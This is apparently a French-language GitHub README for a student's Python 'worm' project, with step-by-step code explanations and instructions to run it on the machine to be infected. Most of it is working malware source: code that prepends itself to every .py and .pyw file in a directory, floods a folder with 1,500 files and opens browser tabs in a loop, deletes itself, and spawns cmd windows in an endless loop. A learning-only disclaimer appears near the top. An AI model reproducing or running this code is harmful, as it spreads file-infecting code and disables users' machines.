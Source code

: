 # Ver de 0xM@rt

[![forthebadge](https://forthebadge.com/images/badges/made-with-python.svg)](https://forthebadge.com)

Dans le cadre de ma formation j'ai du développer un Ver

le but du Ver informatique et de se reproduit sur plusieurs ordinateurs en utilisant un réseau informatique. 


## Pour commencer

Faite attention ce logiciel a été créé dans le but d'apprentissage il ne faut pas l'utiliser a des fin malvaillante  


### Pré-requis

Il faut executer le fichier ver.py et avoir un dossier test ou le vers pourras ce dupliquer.


### Installation

* _Pour_ _Windows_ :

  Pour installer python il faut se rendre sur https://www.python.org/downloads/

* _Pour_ _Ubuntu_ :

  Pour installer python il faut utiliser la commande sudo apt-get install python

## Démarrage

Pour lancer le logiciel il faut juste taper *Python3 virus.py* sur la machine a infecter


## Explication du code 


* _Pour_ _virus.py_ :

--------------------------Les imports---------------------

Sys fournit un accès à certaines variables utilisées et maintenues par l'interpréteur

glob recherche tous les chemins correspondant à un motif particulier selon les règles utilisées par le shell Unix

itertools fonctions créant des itérateurs pour boucler efficacement

subeprocess permet de lancer de nouveaux processus

time permet fournir différentes fonctions liées au temps 

webbrowser permet d'intéragir avec les navigateurs web 


----------------------Traitement ------------------------

Tout d'abords nous avons des commentaires # VIRUS SAYS HI! et # VIRUS SAYS BYE! qui sont utile pour délimité les parties du code pour la réplication

```python
#Le virus charge son propre code
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()

EstInfecte = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        EstInfecte = True
    if not EstInfecte:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
 ```
 
 
Le code suivant permet d'injecter du code dans les fichier en ;py et .pyw
 
```python
python_files = glob.glob('*.py') + glob.glob('*.pyw')

for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    
    infected = False
    
    # ne pas injecter le code s'il y'a le VIRUS SAYS HI
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = True
            break
    
    # injecter le code s'il n'y'a pas le VIRUS SAYS HI
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        
        with open(file, 'w') as f:
            f.writelines(final_code)
            
print ("Virus en cours d'execution")
```
--------------------Ajout personnel dans le virus---------------------


Création de plusieurs fichier txt et affichage de dans un navigateur de photo de chat

```python
path = str(os.path.join(r"C:\Users\User\Documents\Virus"))
print(f)


#------------------ création de plein de fichiers texte dans un dossier et affichage de plein de photo de chat sur le navigateur------------------------------
for t in range(1500):
    file = open(path +"\\test_%d.txt" %t , "w")
    file.write("let's go !!!%d"%t)
    file.close()
    
    webbrowser.open_new("https://genrandom.com/cats/")
    [''.join(x for x in t) for t in itertools.product("abcdefghijklmnobqrstuvwxyz",repeat=1)]
    
    
```


Le virus ce supprime tout seul après execution
```python
#-----------------------------------auto supression du virus---------------------------
file_path = r"C:\Users\User\Documents\Virus\virus.py"

if os.path.isfile(file_path):
os.remove(file_path)
print("fichier supprimé")
```

Le virus lance des cmd en boucle 

```python
#--------------------------------Boucle infini qui lance des CMD------------------------------
while True:
    os.system('start cmd')

# VIRUS SAYS BYE!\n

time.sleep(10)
```



## Auteurs
Listez le(s) auteur(s) du projet ici !
* **0xM@rt** _alias_ [@0xM@rt](https://github.com/0xMart)



